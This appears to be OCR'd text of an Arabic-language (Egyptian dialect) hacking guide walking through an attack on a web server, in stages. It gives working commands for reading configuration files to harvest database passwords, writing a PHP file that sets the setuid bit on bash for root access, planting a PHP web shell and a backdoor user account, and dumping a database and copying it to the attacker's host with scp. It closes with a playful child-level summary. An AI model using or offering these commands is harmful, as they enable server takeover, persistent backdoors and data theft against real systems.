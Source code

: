 #### **أ. جمع المعلومات (Reconnaissance) 🔍**
بتبدأ تستكشف السيرفر عشان تعرف إيه اللي موجود.
- **أوامر عملية:**
  - `find /var/www -name "*.php"` → بيدور على ملفات PHP في موقع الويب.
    - خرج مثال: `/var/www/html/config.php`.
  - `cat /var/www/html/config.php` → بيوريك إعدادات الموقع.
    - خرج محتمل: `$db_password = "secret123";` → باسوورد قاعدة البيانات.
  - في ويندوز: `type C:\inetpub\wwwroot\web.config`
    - خرج محتمل: `<connectionString>password=secret123</connectionString>`.

#### **ب. رفع الصلاحيات (Privilege Escalation) ⬆️**
بتحاول تبقى المدير بتاع السيرفر.
- **أوامر عملية:**
  - لو لقيت ملف PHP مفتوح:
    ```bash
    echo '<?php system("whoami"); ?>' > /var/www/html/test.php
    ```
    - افتح في المتصفح: example.com/test.php → يطلعلك اسم المستخدم (مثلاً `www-data`).
  - لو عايز ترفع صلاحيات:
    ```bash
    echo '<?php exec("chmod u+s /bin/bash"); ?>' > /var/www/html/test.php
    ```
    - افتحه في المتصفح، وبعدها نفذ `/bin/bash -p` → لو نجح، هتبقى Root.

#### **ج. زرع أدوات (Persistence) 🌱**
بتسيب حاجة عشان ترجع بسهولة.
- **أوامر عملية:**
  - أضف Backdoor في PHP:
    ```bash
    echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
    ```
    - افتح: example.com/shell.php?cmd=whoami → ينفذ أي أمر ترسله.
  - في لينكس: أضف مستخدم:
    ```bash
    useradd -m hacker -p $(openssl passwd -1 "password123")
    ```

#### **د. سرقة البيانات (Data Exfiltration) 📤**
بتاخد بيانات مهمة.
- **أوامر عملية:**
  - لو لقيت قاعدة بيانات:
    ```bash
    mysqldump -u root -psecret123 dbname > /tmp/dump.sql
    ```
    - تنزل قاعدة البيانات في ملف.
  - انقل الملف لجهازك:
    ```bash
    scp /tmp/dump.sql user@your-ip:/home/user/
    ```

**خلاصة للطفل:** زي لما تدخل بيت اللعب، تفتش على الحاجات المهمة 🔍، تاخد مفتاح أكبر ⬆️، تترك لعبة صغيرة عشان ترجع تاني 🌱، وتجمع الكنز في شنطتك 🎒!

---